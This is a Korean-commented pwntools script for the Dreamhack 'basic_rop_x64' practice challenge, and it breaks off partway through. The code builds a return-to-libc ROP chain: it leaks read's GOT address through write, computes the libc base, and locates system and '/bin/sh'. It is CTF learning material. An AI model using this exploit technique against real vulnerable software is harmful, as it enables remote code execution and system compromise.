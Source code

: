 ``` python
p 객체는 이 프로세스와의 입출력을 담당(예: p.sendline(), p.recvuntil())

바이너리를 ELF 객체로 로드
e.symbols["main"], e.got["puts"], e.plt["system"] 같은 심볼 / 주소 접근 가능
e 는 프로그램 자체의 ELF 정보 저장

공격대상이 사용하는 libc 라이브러리 파일을 로드능
익스플로잇에서 system, str_bin_sh 등의 libc 심볼 주소를 얻기 위해 필요

ROP 객체 생성
주어진 ELF(e)에서 ROP 가젯ㅇ르 자동으로 찾아줌.
r.call("puts", [addr])처럼 함수 호출용 ROP 체인을 쉽게 생성 가
'''
# p = process("./basic_rop_x64")
p = remote("host8.dreamhack.games", 17006)
e = ELF("./basic_rop_x64")
libc = ELF("./libc.so.6", checksec=False)
r = ROP(e)

'''
실제 Return to libc 익스플로잇 준비 과정
plt(Procedure Linkage Table): 라이브러리 함수로 점프하는 트램펄린 코드 위치
got(Global Offset Table): 실제 libc 함수 주소가 저장되는 테이블
main : 프로그램의 main 함수 주소. -> 1차 페이로드 후 다시 main 으로 돌와와 2차 공격을 준비하는데 쓰임.
'''
read_plt = e.plt["read"]
read_got = e.got["read"]
write_plt = e.plt["write"]
write_got = e.got["write"]
main = e.symbols["main"]

'''
로드한 libc.so.6 에서 필요한 심볼들의 오프셋을 가져옴.
나중에 libc base 주소를 알아내면:
    libc_base = leaked_read - read_offset
    system_addr = libc_base + system_offset
    binsh_addr = libc_base + sh
이렇게 실제 런타임 주소들을 계산할 수 있음.
'''
read_offset = libc.symbols["read"]
system_offset = libc.symbols["system"]
sh = list(libc.search(b"/bin/sh"))[0]

'''
ROP 객체 r을 이용하여 가젯을 찾을 수 있음.
ROP 가젯 = 프로그램 코드 안의 짧은 명령어 조각
pop rdi; ret -> 64비트에서 첫 번째 인자(RDI 레지스터)에 값을 세팅할 때 사용
pop rsi; pop r15; ret -> 두 번째 인자(RSI) 세팅할 때 사용 (R15는 덤으로 버림)
이렇게 찾은 가젯주소를 변수에 저장해 두고, 페이로드에서인자 세팅시 활용함
'''
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]

# Stage 1
'''
buf의 위치는 rbp-0x40 이므로 + SFP(8byte) -> 페이로드 0x48
'''
payload:bytes = b'A' * 0x48

# write(1, read@got, 8)
'''
여기서의 목적은 read 함수의 실제 주소를 libc에서 leak 하는 것.
write(int fd, woid *buf, size_t n) 호출 형태로 ROP 체인 구성.
```